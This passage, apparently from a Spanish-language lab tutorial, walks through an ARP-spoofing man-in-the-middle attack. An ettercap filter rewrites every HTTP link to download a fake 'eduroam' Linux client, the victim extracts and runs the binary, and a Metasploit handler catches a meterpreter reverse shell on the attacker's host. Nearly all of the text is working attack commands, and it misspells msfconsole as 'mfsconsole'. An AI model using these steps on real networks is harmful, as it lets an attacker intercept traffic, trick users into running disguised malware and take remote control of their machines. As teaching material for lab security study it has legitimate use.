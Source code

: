 Estos archivos los ponemos en la carpeta del servidor apache para que se puedan descargar.

Luego creamos un filtro de ettercap, este filtro cambiará todos los links por el que nosotros queramos. Pero se puede hacer para que sea uno sólo en específico.

```sh
nano ett.filter

if (ip.proto == TCP && tcp.src == 80) {
​    replace("href=", "href=\"http://10.11.48.142/eduroam-Linux-UDC.tar\>”)
​    msg("Modified links.\n");
}
```

Luego compilamos el filtro con:

```sh
etterfilter ett.filter -o ig.ef
```

Y luego con ettercap spoofeamos a la víctima:
```sh
ettercap -T -F ig.ef -i ens33 -q -M arp:remote //10.11.48.143/ //10.11.48.1/
```



EN LA VÍCTIMA

Entramos a una página HTTP y vamos a cualquier link

```sh
w3m edu4java.com
```



Luego descomprimimos el tar descargado y ejecutamos el binario

```sh
tar -xvf eduroam-Linux-UDC.tar
./eduroam-Linux-UDC.bin &
```

 Se puede ejecutar en primer plano pero al usuario no le dejaría hacer nada más mientras dure la sesión que se crea.



EN EL ATACANTE

Abrimos mfsconsole, cargamos el módulo correspondiente y establecemos los en qué máquina y puerto se escuchará

```sh
mfsconsole
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.11.48.142
set LPORT 5555
set ExitOnSession false
exploit -j -z
sessions -i 1
```
